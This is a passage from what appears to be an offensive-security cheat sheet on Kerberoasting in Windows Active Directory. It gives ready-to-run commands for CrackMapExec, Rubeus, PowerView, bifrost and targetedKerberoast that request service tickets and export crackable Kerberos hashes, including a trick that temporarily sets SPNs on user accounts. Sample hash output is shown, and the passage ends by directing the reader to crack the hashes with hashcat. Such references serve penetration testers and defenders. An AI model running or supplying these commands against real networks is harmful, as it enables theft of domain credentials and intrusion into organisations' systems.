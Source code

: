 * CrackMapExec Module
  ```powershell
  $ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --kerberoast output.txt
  LDAP        10.0.2.11       389    dc01           [*] Windows 10.0 Build 17763 x64 (name:dc01) (domain:lab.local) (signing:True) (SMBv1:False)
  LDAP        10.0.2.11       389    dc01           $krb5tgs$23$*john.doe$lab.local$MSSQLSvc/dc01.lab.local~1433*$efea32[...]49a5e82$b28fc61[...]f800f6dcd259ea1fca8f9
  ```

* [Rubeus](https://github.com/GhostPack/Rubeus)
  ```powershell
  # Stats
  Rubeus.exe kerberoast /stats
  -------------------------------------   ----------------------------------
  | Supported Encryption Type | Count |  | Password Last Set Year | Count |
  -------------------------------------  ----------------------------------
  | RC4_HMAC_DEFAULT          | 1     |  | 2021                   | 1     |
  -------------------------------------  ----------------------------------

  # Kerberoast (RC4 ticket)
  Rubeus.exe kerberoast /creduser:DOMAIN\JOHN /credpassword:MyP@ssW0RD /outfile:hash.txt

  # Kerberoast (AES ticket)
  # Accounts with AES enabled in msDS-SupportedEncryptionTypes will have RC4 tickets requested.
  Rubeus.exe kerberoast /tgtdeleg

  # Kerberoast (RC4 ticket)
  # The tgtdeleg trick is used, and accounts without AES enabled are enumerated and roasted.
  Rubeus.exe kerberoast /rc4opsec
  ```

* [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
  ```powershell
  Request-SPNTicket -SPN "MSSQLSvc/dcorp-mgmt.dollarcorp.moneycorp.local"
  ```

* [bifrost](https://github.com/its-a-feature/bifrost) on **macOS** machine
  ```powershell
  ./bifrost -action asktgs -ticket doIF<...snip...>QUw= -service host/dc1-lab.lab.local -kerberoast true
  ```

* [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)
  ```powershell
  # for each user without SPNs, it tries to set one (abuse of a write permission on the servicePrincipalName attribute), 
  # print the "kerberoast" hash, and delete the temporary SPN set for that operation
  targetedKerberoast.py [-h] [-v] [-q] [-D TARGET_DOMAIN] [-U USERS_FILE] [--request-user username] [-o OUTPUT_FILE] [--use-ldaps] [--only-abuse] [--no-abuse] [--dc-ip ip address] [-d DOMAIN] [-u USER] [-k] [--no-pass | -p PASSWORD | -H [LMHASH:]NTHASH | --aes-key hex key]
  ``` 


Then crack the ticket using the correct hashcat mode (`$krb5tgs$23`= `etype 23`) 
	